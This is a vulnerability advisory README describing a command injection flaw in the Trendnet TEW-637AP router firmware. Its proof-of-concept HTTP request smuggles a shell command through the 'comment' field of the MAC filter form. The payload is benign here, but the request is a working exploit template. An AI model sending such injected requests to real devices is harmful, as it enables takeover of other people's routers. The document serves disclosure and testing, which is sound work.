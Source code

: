 # Trendnet TEW-637AP(V1.3.0.106) Contains Command injection vulnerability 

## overview

- Manufacturer's website information：https://www.trendnet.com/
- Firmware download address: https://www.trendnet.com/support/support-detail.asp?prod=145_TEW-637AP

## product information

TEW-637AP(V1.3.0.106)

![image-20220828224337173](readme.assets/image-20220828224337173.png)

## description

### 1. Vulnerability Details

The TEW-637AP(V1.3.0.106) contains a command injection vulnerability in file `/bin/goahead`, function`sub_4321F0`

![image-20220828224527969](readme.assets/image-20220828224527969.png)

`doSystem` will call system, so there is a command injection vulnerability via `comment`

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/wirelessAddMacFilter HTTP/1.1
Host: 192.168.0.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://192.168.0.50
Connection: close
Referer: http://192.168.0.50/wireless/wireless_mac_filtering.asp
Upgrade-Insecure-Requests: 1

comment=;touch%20hello&mac_address=aaaaa
```

By sending this poc, we can create a new file named hello

![image-20220828224646964](readme.assets/image-20220828224646964.png)